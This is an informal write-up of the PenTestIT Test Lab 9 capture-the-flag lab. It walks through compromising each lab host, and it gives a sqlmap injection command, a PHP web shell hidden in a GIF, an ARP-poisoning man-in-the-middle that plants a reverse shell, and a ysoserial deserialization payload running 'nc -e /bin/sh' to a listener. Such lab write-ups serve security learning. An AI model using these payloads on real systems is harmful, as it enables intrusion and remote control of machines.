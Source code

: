 ```yaml
---
title: PenTestIT Test Lab 9 WriteUp
categories: ['CTF WriteUps']
tags: 'Test Lab by PenTestIT'
---
```


# PenTestIT Test Lab 9 WriteUp

# Introduction
So, Test Lab 9 was probably the first real CTF/Hacking lab that I participated in. With no expectation and not much knowledge I decided to give it a try. In the end I got all tokens, with a lot of help from people from the telegram chat. This is my "raw" writeup, that I wrote back then. To be honest I dont wanna spend the time to brush this up so im just gonna post it like it is. Have fun!

# WriteUp
## 1. Bypass WAF
Heartbleed 192.168.101.8:443
found /var/www/html/_old_backup_2010/old_proxy_users
path https://192.168.101.8/_old_backup_2010/old_proxy_users
table contains users to bypass proxy and -> token found
md5 (apr) hashes, with hashcat dehashed


## 2. Mainsite
First use the proxy and change hosts file
use this exploit https://www.exploit-db.com/exploits/37822/
using sqlmap to dump db: sqlmap -u http://172.16.0.5/wp-content/plugins/wp-symposium/ajax/forum_functions.php --data="action=getTopic&topic_id=1 AND SLEEP(5)&group_id=0" --dump-all --proxy http://192.168.101.8:3128 --proxy-cred r.lampman:shalom --output-dir Desktop/dbdump/ -D tl9_mainsite
found wordpress user in table wp_users (maybe use for later)
Mainsite token found in wp_token table :)


## 3. SSH
Now we can attack SSH since port 22 is open on 192.168.101.8
download this tool to enumerate possible users https://github.com/c0r3dump3d/osueta
valid users found, use one to connect ssh daemon@192.168.101.8
word krakenwaffe seems weird... google that. -> found twitter of luka safonov... scroll down twitter and found https://github.com/krakenwaffe/eyelog
in the code the password is set to "daypass" + day of month + hours from midnight
login with daemon and password and were in!^
check users dir /root/home -> 3 users found
login with one of the 3 and the same pw as above
dir and ls show nothing, do ls -al -> directory .ssh seems weird
enter directory with cd .ssh -> token found


## 4. Cisco
if were inside the ssh tunnel we can contact the cisco firewall/router.
so lets nmap it. telnet is open!
telnet 192.168.2.100
login page... trying default password cisco and BAM inside -> token found


## 5. ftp
try connect to ftp with cmd "ftp 172.16.0.4".
login as anonymous and no password works
dir and ls show subdirectory called dist
check file and see that its the sourcecode
download the sourcecode and look at it
found something in /src/help.c
help command "help CYBEAR32C" is new
command doesnt work...
access ftp via nc or telnet
new command works, got admin permission.. browsing dirs -> token found


## 6. Photo
Portscan and see that Webport is open
Webpage open, able to upload file
using this guide: http://hackers2devnull.blogspot.ch/2013/05/how-to-shell-server-via-image-upload.html
create small gif picture.
edit the pic in exiftool and add php code to comment tag: <?if($_GET['r0ng']){echo"<pre>".shell_exec($_GET["r0ng"]);}?>
trying to upload the file with all php executable extensions: php, php2, php3, php4, php5, pht and phtml
file as pht gets uploaded
192.168.0.6/upload/r0ng.pht?r0ng=dir to inject php code and shows dir.
weird subfolder found with txt file in it -> cat textfile -> token found :)


## 7. NAS
Nas has scsi port open
try login via telnet and no user/pass is required
create ssh tunnel on local port: ssh -L 7070:192.168.0.3:3260 -l d.nash 192.168.101.8
install open-iscsi
discover iscsi: iscsiadm -m discovery -t st -p 192.168.0.3
edit iscsi node file to use 127.0.0.1:7070 (for ssh tunnel)
login to iscsi: iscsiadm -m node -T iqn.2016-05.ru.pentestit:storage.lun0 --login
mount iscsi to drive: mount /dev/sdb1 /mnt/iscsi
check the folder and found a 2GB .vmdk file
install xpartx to mount it
mount the vmdk file: kpartx -a /mnt/iscsi/test121-flat.vmdk
browsing the files i notice its windows xp... maybe we can get a password from the hashes in SAM
using ophcrack with xp small list and password of user token_nas_token is tokenXXXXXX --> token found
also password for user d.rector found -> works for webmail and term2!


## 8. Mail
We got ourselfs a user from NAS so lets login with it
send mail with .docx attachment -> mail comes back saying "can only accept microsoft office documents if theyre sent from lampma" -> token found


## 9. Terminal2
Portscan shows that rdp port is open
using proxychain and rdesktop i access the rdp session
login with d.rector and pw
token file on desktop -> token found :D


## 10. Dev
Dev is only accessible from terminal2
Tool on C:\ "interceptor-ng" 
scan for hosts in the net, add dev to the nat
use same gw as term 2
Doing man in the middle (ssh) with arp poisoning -> dev logs in to ftp and downloads test.py script from folder upload\test_scripts
user m.barry with password for ftp found
login to ftp as mbarry, create hidden subfolder (ex. .bilal) with 6 chars
copy test.py, insert pything reverse shell
start listener on reverse-shell port
use change data from tool to change upload for .bilal -> our file gets downloaded and executed on dev
shell opens, browse dirs -> token found 


## 11. Portal
we can login using d.rector, its a vacation list
using burp, see that server uses java serialization and "userdata" string is base64 encoded.
serialization is abusable, download code from github ysoserial and compile it with maven
serialize our nc backdoor with it: java -jar ysoserial-0.0.5-all.jar CommonsCollections5 'nc -e /bin/sh 172.16.0.2 1235' > payload.out
encode it to base64: cat payload.out | base64 -w 0 > payload.out.b64
open listener on 172.16.0.2 1235
login to portal using d.rector, intercept request and changing userdata for payload.out.b64
we get shell open, browse some dirs -> token found